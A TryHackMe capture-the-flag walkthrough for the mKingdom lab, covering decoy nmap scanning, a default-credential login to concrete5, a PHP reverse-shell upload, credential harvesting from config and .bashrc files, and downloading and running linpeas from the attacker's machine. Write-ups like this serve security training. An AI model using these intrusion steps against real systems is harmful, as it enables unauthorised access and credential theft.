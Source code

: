 ![intro](https://github.com/user-attachments/assets/352398d3-7036-426f-8735-18b607e1f22e)

# tryhackme-CTF-writeup-for-mkingdom

This is a walkthrough for the tryhackme CTF mkingdom. I will not provide any flags or passwords as this is intended to be used as a guide.

## Scanning/Reconnaissance

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -D RND:10 -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals a webserver on port 85:

![nmap](https://github.com/user-attachments/assets/6e9260bd-2c0f-4f72-ae61-0feece3a008a)

Visiting this webserver we see this image of Bowser:

![bowser](https://github.com/user-attachments/assets/5027b68b-1510-432f-8e82-b2b9824a84b5)

Using exiftool on the image reveals that the creater is b0ws53r. 

![exif](https://github.com/user-attachments/assets/6a372813-6216-499a-ad9f-8851eb1d1d98)

Let's run a gobuster and nikto scan on the target:

![gobuster + nikto](https://github.com/user-attachments/assets/52b6696d-72fa-4069-a95e-885787ab9668)

The scans reveal a directory call /app. At first this brings us to a button called jump, and after clicking it a few times, it takes us to toad's expensive website. Let's examine the source code:

![source](https://github.com/user-attachments/assets/5ad9209e-80cc-43d8-9c73-90a87896a060)

The code reveals that the site is using concrete5 8.5.2. I did a little research on exploited this and came across this article on hackerone.com:

![concrete exploit](https://github.com/user-attachments/assets/5d16a8c7-a37d-4bd8-89a7-c5f03afb8414)

I tried a some typical default username and password combos and admin:password worked for the login. Now, we're going to follow the steps described in the hackerone article to change file properties to allow php, and upload a php reverse shell. 
And we now have a reverse shell as www-data!

![www-data](https://github.com/user-attachments/assets/d8d732b3-4ee2-4e56-82e9-45ce03d92f6f)

# Privilege Escalation
I then searched around the home directory but permission is denied for the directories. So, I headed back to www-data's home, and started looking around for useful files. We saw from the source code earlier that the web server is built off of the /app/castle/application. I then found the directory config. It's always a good idea to check the config directory to see if there is senitive info. And the file database.php contains a password for toad.

![su toad](https://github.com/user-attachments/assets/b40596f7-8cfd-43f0-8a4e-dbe45cf34f3f)

I ran sudo -l as toad but toad can't run sudo on this machine. Let's head to /home/toad and see what we can find. smb.txt contains a message from mario:

![smb txt](https://github.com/user-attachments/assets/7d4d89b6-9751-4d8e-8e88-6182f2c6e284)

It's always a good idea to check files such as .bash_history and .bashrc to look for senitive info. I checked out .bashrc and noticed a PWD_token that appears to be base64 encryped.

![bashrc](https://github.com/user-attachments/assets/8515dba8-aebf-456d-83b2-680b1b3952ec)

I was then used this password to su mario:

![su mario](https://github.com/user-attachments/assets/ede5ede8-50dd-48e7-98ca-234218844851)

Now, let's head to /tmp, and run linpeas. I ran a python server from kali:
```bash
python3 -m http.server
```
And wget from mario:
```bash
wget http://<your IP>:8000/linpeas.sh
```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh >> output
```

I didn't many concrete things that we could use. Let's use pspy to see if we can find processes to exploit:

![pspy64](https://github.com/user-attachments/assets/db94d3b3-e0b9-4ccb-ad6d-3d1a76525d1d)



